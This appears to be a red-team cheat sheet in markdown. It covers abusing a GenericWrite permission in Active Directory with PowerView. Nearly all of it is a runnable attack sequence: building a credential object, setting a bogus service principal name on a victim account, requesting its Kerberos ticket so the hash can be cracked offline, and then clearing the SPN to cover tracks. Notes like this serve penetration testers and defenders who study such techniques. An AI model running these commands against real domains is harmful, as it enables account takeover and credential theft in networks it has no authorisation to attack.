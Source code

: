 # GenericWrite

Upload PowerView.ps1 
[PowerView Tips by Harmj0y](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
[Harmj0y Cheatsheets](https://github.com/HarmJ0y/CheatSheets)

####  Over a User

GenericWrite - the [iredteam Generic requires log off and on](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('$domain\$user', $SecPassword)
```

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as user:

```powershell
# The service principle name does not matter 
Set-DomainObject -Credential $Cred -Identity $currentUser -SET @{serviceprincipalname='DoesNot/MatterunlessOPSEC'}
```

After running this, you can use [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/#get-domainspnticket) as follows:

```powershell
Get-DomainSPNTicket -Credential $Cred -SPN 'Object/maria'  | fl
```

The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName can be done with the Set-DomainObject command:

```powershell
# Bloodhound errorious -TargetIdentity issues
Set-DomainObject -Credential $Cred -Identity maria -Clear serviceprincipalname
```

## References

[Bloodhound](https://bloodhound.readthedocs.io/en/latest/)
[PowerView Tips by Harmj0y](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
[Harmj0y Cheatsheets](https://github.com/HarmJ0y/CheatSheets)
[iredteam Generic requires log off and on](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
